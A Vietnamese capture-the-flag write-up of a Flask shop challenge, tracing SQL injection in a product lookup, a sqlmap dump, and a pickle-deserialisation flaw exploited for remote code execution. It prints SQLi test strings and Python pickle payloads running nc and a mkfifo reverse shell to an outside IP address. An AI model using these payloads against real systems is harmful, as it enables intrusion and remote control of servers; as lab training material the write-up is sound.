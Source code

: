 ```yaml
---
layout: post
title: THM C.O.P Writeup
date: 2021-11-04
categories: ["hackthebox"]
---
```


# Phân Tích Code
Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Đây là mã nguồn được viết bằng Python và Flask. Tôi sẽ đọc tệp ```routes.py``` để biết thông tin đầu vào của trang web.

![](https://i.imgur.com/phZwpEK.png)

Ở đây mình thấy có 2 chức năng là homepage và viewpage. Trang homepage sẽ hiển thị tất cả các sản phẩm và trang viewpage sẽ hiển thị chi tiết từng sản phẩm. 

Hai chức năng query all_product và select_by_id ở trong class Shop trong file ```models.py```, mình sẽ kiểm tra 2 chức năng này.

![Imgur](https://i.imgur.com/DCB0srs.png)

Trong hàm select_by_id có truyền 1 biến product_id và biến này không được filter => điều này có thể dẫn đến lỗi SQL Injection. 

![Imgur](https://i.imgur.com/a2tiI4C.png)

Ngay cả trong hàm query_db cũng không được filter. 

# Khai Thác SQLi
Mình thử payload ```' or '1'='1``` và ```' or '1'='2```

![Imgur](https://i.imgur.com/efANYyE.png)

![Imgur](https://i.imgur.com/TUEMQpf.png)

Tiếp theo mình sẽ sử dụng sqlmap để thực hiện khai thác dump db.

```python sqlmap.py -u http://localhost:8888/view/1 --random-agent --level=5 --risk=3 --dbms=mysql --dump```

![Imgur](https://i.imgur.com/kuTmzc2.png)

Kết quả mình nhận được là dữ liệu đã bị encode dạng base64. 

=> Có vẻ như mình đã sai hay thiếu ở đâu đó.

# Tiếp Tục Phân Tích Code
Khi mình quay lại phân tích file ```routes.py``` thì mình mới để ý là dữ liệu hiển thị trong file ```item.html```

```python
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```

Nội dung của file ```item.html``` có 1 đoạn như thế này

```html
	<section class="py-5">
            <div class="container px-4 px-lg-5 my-5">
                <div class="row gx-4 gx-lg-5 align-items-center">
                    {% set item = product | pickle %}
                    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
                    <div class="col-md-6">
                        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
                        <div class="fs-5 mb-5">
                            <span>£{{ item.price }}</span>
                        </div>
                        <p class="lead">{{ item.description }}</p>
                    </div>
                </div>
            </div>
        </section>
```

Nội dung hiển thị ra được sử dụng hàm ```pickle``` để bảo vệ.

Và trong file ```app.py```, hàm sẽ được trả ra kết quả base64.

```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```

Và sau một thời gian tìm kiếm trên google và về hàm pickle. Mình nhận thấy rằng hàm này có thể RCE.

- [https://davidhamann.de/2020/04/05/exploiting-python-pickle/ ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
- [https://docs.python.org/3/library/pickle.html ][https://docs.python.org/3/library/pickle.html ]

# Exploit
Trước tiên, mình thử ```nc``` đến server của mình để xem nó có hoạt động hay không với payload:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("nc 103.68.192.239 8899")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Mở 1 port 8899 trên server với lệnh sau: ```nc -lnvp 8899```

Sau đó mình sử dụng burpsuite để thực hiện gửi payload lên ứng dụng web. 

![Imgur](https://i.imgur.com/OdzcERa.png)

Và mình nhận được 1 kết nối lên server.

![Imgur](https://i.imgur.com/43ZUklf.png)

Tiếp theo mình tạo một payload để thực hiện reverse shell về server của mình

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 103.69.195.239 8899 >/tmp/f")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Và send payload lên ứng dụng

![Imgur](https://i.imgur.com/QbxrAYV.png)

Sau đó mình có được shell và get flag

![Imgur](https://i.imgur.com/tb8HHve.png)


